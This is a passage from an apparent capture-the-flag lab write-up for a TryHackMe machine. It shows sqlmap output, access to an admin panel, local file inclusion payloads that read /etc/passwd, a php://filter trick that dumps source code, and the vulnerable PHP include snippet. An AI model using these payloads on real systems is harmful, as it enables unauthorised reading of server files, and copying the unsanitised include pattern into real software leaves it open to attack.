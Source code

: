 ```bash
[23:27:05] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a 302 redirect to 'http://10.10.246.171/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n]
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N]
```

## Admin Panel Access

Navigating to the `supersecretadminpanel.html` page grants access to an **Admin Panel**.

![Admin Panel](/ctf/tryhackme/cheese-ctf/admin-panel.png)

The panel consists of three sections:

1. `Orders`
2. `Messages`
3. `Users`

While exploring the **URLs**, we notice a **file inclusion parameter (`file`)**.

## Local File Inclusion (LFI)

LFI vulnerabilities allow us to read arbitrary files on the server. We test the `file` parameter:

```bash
http://10.10.246.171/secret-script.php?file=/etc/passwd
```

The `/etc/passwd` file is exposed:

![LFI](/ctf/tryhackme/cheese-ctf/lfi.png)

From the output, we identify a valid system user: `comte`.

## Extracting Source Code via PHP Filters

Using **PHP filters**, we extract the **source code** of `secret-script.php`:

```bash
http://10.10.246.171/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php
```

After decoding the Base64 output, we see the vulnerable PHP code:

```php
<?php
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        include($file);
    }
?>
```
